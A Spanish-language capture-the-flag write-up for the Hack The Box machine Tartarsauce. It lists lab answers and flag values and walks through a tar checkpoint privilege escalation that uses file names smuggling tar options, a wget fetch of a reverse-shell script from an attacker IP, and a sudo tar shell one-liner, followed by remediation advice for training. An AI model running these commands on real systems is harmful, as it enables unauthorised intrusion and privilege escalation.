









# Informe Técnico de Seguridad Ofensiva: Tartarsauce


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Tartarsauce** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** Explotación de servicio de red
* **Vector de Elevación de Privilegios:** Escalada local de privilegios
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Tartarsauce |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Linux |
| **Nivel de Dificultad** | Medium |
| **CVE(s) Involucrados** | N/A |
| **Vector de Entrada** | Explotación de servicio de red |
| **Mecanismo de Escalada** | Escalada local de privilegios |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: Explotación de servicio de red
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: Escalada local de privilegios
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso

**How many open TCP ports are listening on TartarSauce?**

R:  1



**What is the relative path on the webserver to the blog?**

R: /webservices/wp


**What WordPress plugin shows it's version as 2.3.10?**

R: gwolle-gb

**What is the actual version of gwolle-gb running on TartarSauce?**

R: 1.5.3

What is relative path of the PHP file that has a remote file include vulnerability in this version of gwolle-gb?

R: /webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php


**What user is the webserver running as on TartarSauce?**

R: www-data



**What is the full path to the binary that www-data can run as the onuma user on TartarSauce?**

R: /bin/tar


**What is the flag in `tar` that specifies how many bytes to process before running some action?**

R: —checkpoint



**Submit the flag located in the onuma user's home directory.**

R:  70345b57df16f8adc9b46ffe6dcbddca




> 
> 
> 
> ### 1️⃣ Preparar el entorno
> 
> ```bash
> bash
> CopiarEditar
> cd /dev/shm; mkdir tar; cd tar
> 
> ```
> 
> 📌 **Explicación**:
> 
> - Se usa `/dev/shm` porque es un directorio **temporal y en memoria**, a menudo con permisos de escritura para todos.
> - Crea y entra al directorio `tar` dentro de `/dev/shm`.
> 
> ---
> 
> ### 2️⃣ Crear archivos de configuración para `tar`
> 
> ```bash
> bash
> CopiarEditar
> echo > '--checkpoint=1'
> echo > '--checkpoint-action=exec=sh shell.sh'
> 
> ```
> 
> 📌 **Explicación**:
> 
> - Se crean **archivos falsos** llamados:
>     - `-checkpoint=1`
>     - `-checkpoint-action=exec=sh shell.sh`
> 
> ⚠️ Truco:
> 
> Cuando `tar` vea esos archivos, interpretará sus **nombres como argumentos válidos**.
> 
> Esto es un abuso del comportamiento de `tar` para ejecutar comandos maliciosos.
> 
> ---
> 
> ### 3️⃣ Descargar el script malicioso
> 
> ```bash
> bash
> CopiarEditar
> wget http://10.10.14.15/shell.sh
> 
> ```
> 
> 📌 **Explicación**:
> 
> - Descarga un script (`shell.sh`) desde tu máquina atacante.
> - Este script debe contener una **reverse shell** o algo que te dé acceso como `onuma`.
> 
> ---
> 
> ### 4️⃣ Ejecutar `tar` con `sudo` como onuma
> 
> ```bash
> bash
> CopiarEditar
> sudo -u onuma /bin/tar cf archive.tar *
> 
> ```
> 
> 📌 **Explicación**:
> 
> - Ejecuta `tar` como el usuario `onuma`.
> - El comando `tar cf archive.tar *` está empacando todos los archivos en `archive.tar`.
> 
> 💥 Lo importante:
> 
> Mientras empaqueta, detecta los archivos llamados `--checkpoint=1` y `--checkpoint-action=exec=sh shell.sh`, y **ejecuta el comando `sh shell.sh` como onuma**.
> 

sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash


**What is the full path to the Bash script that runs every five minutes on a Systemd timer?**

R: /usr/sbin/backuperer




`backuperer` **creates a Tar archive with a copy of the web root before waiting 30 seconds to continue. What is the full path of the directories that the Tar archive is saved to?**

R:/var/tmp



**When root unpacks a Tar archive, are permissions settings (including SetUID) maintained?**

R: yes

**Submit the flag located in the root user's home directory.**

R: d62c47e3da58a1fbddea73313b3355b5









[https://www.youtube.com/watch?v=9MeBiP637ZA](https://www.youtube.com/watch?v=9MeBiP637ZA)

---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (N/A).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (Explotación de servicio de red) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (Escalada local de privilegios) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
